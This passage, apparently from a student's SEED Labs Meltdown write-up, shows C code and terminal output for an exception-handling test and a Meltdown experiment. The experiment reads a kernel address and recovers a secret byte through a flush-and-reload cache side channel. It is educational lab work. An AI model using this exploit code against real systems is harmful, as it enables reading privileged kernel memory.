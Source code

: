 ```c
    char kernel_data =*(char*)kernel_data_addr;
    // The following statement will not be executed.
    printf("Kernel data at address %lu is: %c\n",kernel_data_addr, kernel_data);
  }else {
    printf("Memory access violation!\n");
  }
  printf("Program continues to execute.\n");
  return 0;
}

[06/25/20]seed@VM:~/.../Meltdown_Attack$ ./ExceptionHandling 
Memory access violation!
Program continues to execute.
```

## 5. Task 6: Out-of-Order Execution by CPU

```c
1 	number = 0;
2		*kernel_address = (char*)0xfb7c2000;
3  	kernel_data =*kernel_address;
4  	number = number + kernel_data;
```

Looking from the outside we know that line 4 will never be executed, but CPU will run ahead once the required resources are available. 

Test code: `MeltdownExperiment.c`

```c
$ cat MeltdownExperiment.c
void meltdown(unsigned long kernel_data_addr){
  char kernel_data = 0;
  // The following statement will cause an exception
  kernel_data =*(char*)kernel_data_addr;
  // Because previous line will cause an exception, this line will no be excuted. And the result will eventually be discarded. However, because of the execution, array[7*4096 + DELTA] will now be cached by CPU. With side channel attack, we will be able to access it.
  array[7*4096 + DELTA] += 1;
}
// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main(){
  // Register a signal handler
  signal(SIGSEGV, catch_segv);
  // FLUSH the probing array
  flushSideChannel();
  if (sigsetjmp(jbuf, 1) == 0) {
    // Replace by own address
    meltdown(0xfb61b000);
  }else {
    printf("Memory access violation!\n");
  }
  // RELOAD the probing array
  reloadSideChannel();
  return 0;
}

$ seed@VM:~/.../Meltdown_Attack$ ./MeltdownExperiment 
Memory access violation!
array[7*4096 + 1024] is in cache.
The Secret = 7.
```